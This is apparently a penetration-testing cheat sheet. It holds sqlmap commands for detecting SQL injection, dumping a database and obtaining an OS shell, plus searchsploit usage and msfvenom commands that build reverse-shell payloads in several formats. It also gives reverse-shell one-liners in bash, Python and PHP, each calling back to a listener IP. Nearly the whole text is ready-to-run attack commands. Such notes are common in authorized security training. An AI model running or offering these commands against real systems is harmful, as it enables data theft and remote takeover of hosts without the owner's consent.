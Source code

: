 - SQLMap - Automated Code Execution

```powershell
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user #Testing on parameter names "user", we'll get confirmation
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump #Dumping database

#OS Shell
#  Obtain the Post request from Burp suite and save it to post.txt
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp" #/var/www/html/tmp is the writable folder on target, hence we're writing there

```

---

# Exploitation

## Finding Exploits

### Searchsploit

```bash
searchsploit <name>
searchsploit -m windows/remote/46697.py #Copies the exploit to the current location
```

## Reverse Shells

### Msfvenom

```powershell
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

### One Liners

```powershell
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
<?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>
#For powershell use the encrypted tool that's in Tools folder
```

<aside>
💡 While dealing with PHP reverse shell use: [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)
